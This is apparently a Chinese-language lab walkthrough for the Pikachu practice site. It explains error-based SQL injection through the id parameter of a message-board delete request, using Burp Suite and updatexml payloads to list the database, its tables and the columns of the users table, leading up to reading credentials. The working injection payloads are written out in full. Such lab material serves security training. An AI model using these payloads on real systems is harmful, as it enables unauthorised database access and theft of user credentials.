

在留言板里面随便输入一些东西然后点击submit  
使用burpsuite拦截留言的删除操作  
将拦截的东西发送到repeater  
在id后面的数字后加上'，页面报错  
  
将id后面的内容改为  
218+and+updatexml(1,concat(0x7e,(select+database()),0x7e),1)  
(输入的空格会被编译，所有需要用+来代替空格)  
即可查看当前运行的数据库  
将id后面的内容改为  
218+and+updatexml(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema='pikachu'),0x7e),1)  
即可查看当前的所有表  
将id后面的内容改为  
218+and+updatexml(1,concat(0x7e,(select+group_concat(column_name)+from+information_schema.columns+where+table_schema='pikachu'+and+table_name='users'),0x7e),1)  
即可查看当前所有的字段名  
然后就可以查看用户名和密码了  
